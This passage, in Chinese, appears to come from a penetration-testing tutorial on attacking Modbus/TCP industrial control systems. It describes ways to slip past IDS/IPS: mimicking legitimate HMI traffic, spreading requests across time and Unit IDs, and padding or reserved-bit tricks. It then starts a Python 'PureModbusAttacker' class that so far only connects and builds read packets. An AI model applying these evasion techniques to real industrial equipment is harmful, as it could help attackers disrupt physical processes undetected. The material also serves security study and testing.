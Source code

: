 **掩護性攻擊：**
在正常的生產活動掩護下進行攻擊，降低被發現的機率。

## 防禦規避技術

### 流量特徵偽裝
現代的 IDS/IPS 系統可能會監控 Modbus 流量的異常模式。攻擊者可以透過以下技術來規避檢測：

**正常化流量模擬：**
分析合法 HMI 系統的通訊模式，模擬其 Transaction ID 序列、請求頻率和資料模式。

**分散式攻擊：**
將攻擊分散到多個時間點和不同的 Unit ID，避免觸發基於頻率的異常檢測。

### 協議層混淆
利用 Modbus 協議的一些模糊規範來實現攻擊載荷的混淆：

**保留位元利用：**
在某些保留的位元位置插入無害的資料，可能繞過簡單的模式匹配檢測。

**冗餘資料插入：**
在不影響核心功能的前提下，添加額外的資料來改變封包的特徵簽章。

## 滲透價值分析

使用純 Python 建構 Modbus 封包的優勢：

- **完全控制**：對每個位元組都有絕對控制權
- **繞過限制**：不受函式庫功能限制
- **客製化攻擊**：可實作特殊的攻擊載荷
- **深度理解**：強迫學習協議底層結構

這種技術在高階滲透測試和漏洞研究中極為重要。

## 完整程式碼範例

以下是完整的純 Python Modbus 攻擊程式，展示所有關鍵技術的整合應用：

```python
#!/usr/bin/env python3
import socket
import struct
import time

class PureModbusAttacker:
    def __init__(self, host, port=502):
        self.host = host
        self.port = port
        self.sock = None
        self.transaction_id = 1
    
    def connect(self):
        """建立 TCP 連線"""
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.connect((self.host, self.port))
        print(f"[+] 連線成功: {self.host}:{self.port}")
    
    def build_read_packet(self, start_addr, count, unit_id=1):
        """建構讀取封包"""
        # MBAP Header + Function Code 3 + Address + Count
        packet = struct.pack('>HHHBBHH', 
                           self.transaction_id, 0, 6, unit_id,
                           0x03, start_addr, count)
        self.transaction_id += 1
        return packet
```